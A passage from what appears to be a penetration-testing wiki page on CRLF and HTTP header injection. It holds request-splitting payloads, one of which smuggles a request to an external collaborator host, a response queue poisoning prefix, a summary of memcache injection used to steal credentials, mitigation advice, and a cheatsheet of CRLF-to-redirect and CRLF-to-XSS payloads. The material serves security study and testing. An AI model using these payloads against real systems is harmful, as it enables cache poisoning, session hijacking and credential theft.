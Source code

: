 `GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/redirplz%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0aContent-Length:%2050%0d%0a%0d%0a HTTP/1.1`

2. **Crafting a Prefix for Response Queue Poisoning**: This approach involves creating a prefix that, when combined with trailing junk, forms a complete second request. This can trigger response queue poisoning. An example is:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/%20HTTP/1.1%0d%0aFoo:%20bar HTTP/1.1`

### Memcache Injection

Memcache is a **key-value store that uses a clear text protocol**. More info in:

[[../network-services-pentesting/11211-memcache/]]

**For the full information read the**[[https://www.sonarsource.com/blog/zimbra-mail-stealing-clear-text-credentials-via-memcache-injection/| **original writeup**]]

If a platform is taking **data from an HTTP request and using it without sanitizing** it to perform **requests** to a **memcache** server, an attacker could abuse this behaviour to **inject new memcache commands**.

For example, in the original discovered vuln, cache keys were used to return the IP and port a user shuold connect to, and attackers were able to **inject memcache comands** that would **poison** the **cache to send the vistims details** (usrnames and passwords included) to the attacker servers:

![[../images/image (659).png|https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/ba72cd16-2ca0-447b-aa70-5cde302a0b88/body-578d9f9f-1977-4e34-841c-ad870492328f_10.png?w=1322&h=178&auto=format&fit=crop]]


Moreover, researchers also discovered that they could desync the memcache responses to send the attackers ip and ports to users whose email the attacker didn't know:

![[../images/image (637).png|https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/c6c1f3c4-d244-4bd9-93f7-2c88f139acfa/body-3f9ceeb9-3d6b-4867-a23f-e0e50a46a2e9_14.png?w=1322&h=506&auto=format&fit=crop]]


### How to Prevent CRLF / HTTP Header Injections in Web Applications

To mitigate the risks of CRLF (Carriage Return and Line Feed) or HTTP Header Injections in web applications, the following strategies are recommended:

1. **Avoid Direct User Input in Response Headers:** The safest approach is to refrain from incorporating user-supplied input directly into response headers.
2. **Encode Special Characters:** If avoiding direct user input is not feasible, ensure to employ a function dedicated to encoding special characters like CR (Carriage Return) and LF (Line Feed). This practice prevents the possibility of CRLF injection.
3. **Update Programming Language:** Regularly update the programming language used in your web applications to the latest version. Opt for a version that inherently disallows the injection of CR and LF characters within functions tasked with setting HTTP headers.

### CHEATSHEET

[[https://twitter.com/NinadMishra5/status/1650080604174667777|Cheatsheet from here]]

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue (Check if the response is setting this cookie)

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
```